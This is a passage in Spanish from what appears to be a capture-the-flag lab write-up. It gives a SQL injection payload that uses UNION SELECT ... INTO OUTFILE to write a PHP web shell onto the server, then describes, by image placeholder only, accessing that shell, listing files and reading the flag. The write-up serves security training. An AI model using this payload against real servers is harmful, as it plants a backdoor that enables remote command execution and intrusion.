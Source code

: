 Nos salta un error pero de las tres condiciones necesarias, el usuario ya cuenta con el privilegio **FILE** habilitado y además la variable global **secure\_file\_priv** de MySQL no está activa, por lo que el problema debe encontrarse en la tercera condición, es decir, en la falta de permisos de escritura en la ubicación del servidor donde se pretende guardar el archivo.

```
'+union+select+"","",'<%3fphp+system($_REQUEST[0])%3b+%3f>',+"",+""+into+outfile+'/var/www/html/dashboard/shell.php'--+-
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Accedemos a la web shell.

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Listamos los archivos.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de la flag.

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
